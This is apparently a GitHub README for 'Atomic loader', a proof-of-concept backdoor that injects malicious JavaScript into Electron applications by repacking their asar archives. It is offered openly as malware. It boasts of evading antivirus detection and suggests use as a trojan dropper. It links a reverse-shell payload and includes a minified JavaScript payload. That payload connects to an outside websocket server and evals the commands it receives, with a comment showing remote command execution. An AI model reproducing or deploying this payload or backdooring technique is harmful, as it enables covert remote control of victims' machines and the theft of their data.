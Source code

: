 # Atomic loader

### What is this Atomic loader

This is a proof of concept universal electron **FUD** application backdoor. I named it atomic loader because electron was called "atomic shell" before it was renamed apparently.

![[loader.png]]

### How does it work
Every single electron application uses a format called asar, you might have seen this:
[https://github.com/electron/asar]()

- Unpacking asar files is simple and packing it back with malicious javascript added will force the code to load with the application and therefore backdooring it.
- I can't say it "injects" but it's some form of persistance inside the application

This loader was based on vxunderground's research paper: "Node modules infector" but not to be confused since it works completely different yet the idea is still the same.
[https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector]()


### Why does it not fully work?
There are 2 main reasons
-> 1. I don't want to release this as fully working code out into the wild before it gets fully patched
-> 2. I've tried pretty hard to get it to work, It works most of the time, usually if you have one electron application but it seems to break for some reason, I just can't figure out why. Maybe you can help me? Feel free to commit.

**edit this line in the index.js before trying it out**

```js
const shellcode = "";
```

Use something like this: 

[https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js]()

Or craft your own shellcode, that should connect to a websocket server and execute commands from it. In this example we will be using [piesocket](https://www.piesocket.com/):

```js
;const WebSocket=require('ws');var exec=require('child_process').execSync;var piesocket=new WebSocket('wss://us-nyc-1.piesocket.com/v3/1?api_key=<INSERT_KEY>&notify_self');piesocket.onopen=function(connect){piesocket.send('loaded');};piesocket.onmessage=function(message){if(message.data.startsWith('!')){try{eval(message.data.slice(1));}catch(e){}}};piesocket.onerror=function(error){location.reload();};piesocket.onclose=function(error){location.reload();};
// send !piesocket.send(exec('whoami')) into websocket for rce
```

### Detections on virustotal?
![[detections.png]]
I'm proud to say this is surprisingly [100% FUD](https://www.virustotal.com/gui/file/4903e478fede3628566f20e2fb1caccbf22f88f9d02822748428d6ad23a88d64?nocache=1). Any application you compile with node pkg will stay zero, Hence you could utilize this as a "trojan dropper"
Unless you want to code Mimikatz in nodejs ;)
